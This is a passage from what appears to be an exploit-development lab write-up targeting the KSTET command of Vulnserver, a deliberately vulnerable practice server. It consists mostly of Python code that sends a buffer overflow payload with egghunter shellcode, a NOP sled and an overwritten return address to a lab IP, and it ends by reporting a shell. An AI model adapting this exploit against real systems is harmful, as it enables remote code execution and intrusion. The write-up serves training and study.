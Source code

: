 ```python
data = command + payload
print '[*] Sending data: ' + command + egg + shellcode.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()


nopsled = '\x90' * 4
egghunter = '\x31\xdb\x53\x53\x53\x53\xb3\xc0\x66\x81\xca\xff\x0f\x42\x52\x6a'
egghunter += '\x26\x58\x33\xc9\x8b\xd4\x64\xff\x13\x5e\x5a\x3c\x05\x74\xe9\xb8'
egghunter += '\x77\x30\x30\x74\x8b\xfa\xaf\x75\xe4\xaf\x75\xe1\xff\xe7'
pre_buf = 'A' * (70 - len(egghunter) - len(nopsled))
eip = '\xBB\x11\x50\x62'
jmp = '\x90\xEB\xB5' 
post_buf =  'C' * (26 - len(jmp))
buffer = nopsled + egghunter + pre_buf + eip + jmp + post_buf
command = 'KSTET '
data = command + buffer

print '[*] Sending data: ' + command + buffer.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()
```

Sending the final exploit.

<img src="/images/vulnserver/kstet/kstet-send-final-exploit.png" alt="kstet-send-final-exploit" width="700"/>

And finally we have a shell!  

<img src="/images/vulnserver/kstet/kstet-final-exploit-1.png" alt="kstet-send-final-exploit-1" width="700"/>